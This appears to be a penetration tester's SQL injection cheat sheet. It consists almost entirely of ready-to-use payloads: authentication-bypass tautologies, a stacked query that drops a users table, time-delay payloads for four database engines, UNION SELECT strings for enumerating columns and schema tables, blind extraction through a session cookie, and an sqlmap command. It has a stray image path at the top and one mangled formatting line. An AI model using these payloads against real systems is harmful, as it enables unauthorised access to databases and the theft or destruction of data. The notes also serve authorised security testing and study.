 
!!! alert "note"
	 Think outside the box for injectable parameters. Anything that could be passed to a db is worth testing against. ie UAs, cookies, etc…

## Key Delimiters and Enclosures

- `'`, `"`: Standard string delimiters. E.g., `' OR '1'='1`
- `\\: MySQL identifier quoting. E.g.,` column `= 'value'` `
- `;`: Statement separator. E.g., `SELECT * FROM users; DROP TABLE users;`
- `-`, `/*...*/`: SQL comments. E.g., `-comment`, `/* comment */`
## Injection Patterns

- Basic Injection: `' OR 1=1--`
- Closing Brackets: Try closing out functions or statements. E.g., `')`, `'))`, `')))--`, `%'))-- -`
- Logical Operators: `OR`, `AND`. E.g., `' OR 'x'='x`
- Union Injection: `' UNION SELECT ... --`
- Conditional Time Delays (for blind SQLi):
    - MySQL: `'; SELECT SLEEP(5);--`
    - MSSQL: `'; WAITFOR DELAY '00:00:05';--`
    - Oracle: `'; dbms_lock.sleep(5);--`
    - PostgreSQL: `'; SELECT pg_sleep(5);--`
- Out-of-Band: Through DNS or HTTP. E.g., DNS lookup triggered by SQL query.
## Basic
**Logical or**
```Python
' OR 1=1-- -
```
**Union - Enum number of columns**
```Python
' union select null#
' union select null,null#
' union select null,null,null#
```
**Now that you know number of columns, return any query results**
```Python
' union select null,null,version()#
```
```Python
' union select null,null,table_name from information_schema.tables#
```
```Python
' union select null,null,<COLUMN> from <TABLE>#
```
**Column types must match in union select.**
```Python
' union select null(int),1,null,null from <table>#
```
[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
### Blind
**manual logical value extraction**
- Compare results against passed char, if response does not change, we have a valid char
```Python
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 1) = '7'#
```
```Python
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 2) = '7.'#
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 3) = '7.0'#
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 5) = '7.0.3'#
```
**sqlmap**
```Python
sqlmap -r r --level=2
```